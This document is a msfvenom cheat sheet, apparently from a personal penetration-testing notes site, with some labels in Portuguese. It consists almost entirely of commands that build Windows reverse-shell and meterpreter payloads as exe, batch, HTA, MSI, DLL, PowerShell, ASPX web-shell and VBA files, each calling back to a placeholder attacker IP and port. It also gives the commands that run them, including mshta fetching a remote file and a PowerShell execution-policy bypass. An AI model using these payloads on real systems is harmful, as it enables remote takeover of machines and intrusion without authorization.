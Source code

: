 ```yaml
---
title: "Msfvenom Cheat Sheet"
permalink: /ct/msfvenom-cs/
layout: archive
author_profile: true
---
```


## Payload and its types

Listando formatos
```
msfvenom --list format
```

Listando plataformas
```
msfvenom --list platforms
```

Executable Payload (exe)
```
msfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=<PORT> -f exe > shell.exe
```

Powershell Batch File
```
msfvenom -p cmd/windows/reverse_powershell lhost=<IP> lport=<PORT> > shell.bat
```

HTML Application Payload (HTA)
```
// Payload
msfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=<PORT> -f hta-psh > shell.hta

// Executando
mshta http://<IP>:<PORT>/shell.hta
```

Microsoft Installer Payload (MSI)
```
// Payload
msfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=<PORT> -f msi > shell.msi

// Executando
msiexec /quiet /qn /i shell.msi
```

Dynamic-link library Payload (DLL)
```
// Payload
msfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=<PORT> -f dll > shell.dll

// Executando
rundll32.exe shell.dll,0
```

Powershell Payload (psh-cmd)
```
msfvenom -p cmd/windows/reverse_powershell lhost=<IP> lport=<PORT> -f psh-cmd -f raw
```

Powershell Payload (ps1)
```
// Payload
msfvenom -p windows/x64/meterpreter_reverse_https lhost=<IP> lport=<PORT> -f psh > shell.ps1

// Executando
powershell -ep bypass
.\shell.ps1
```

Web shell Payload (ASPX)
```
msfvenom -p windows/x64/meterpreter/reverse_https lhost=<IP> lport=<PORT> -f aspx > shell.aspx
```

Visual Basic Payload (.vba)
```
msfvenom -p windows/x64/meterpreter/reverse_https lhost=<IP> lport=<PORT> -f vba
```

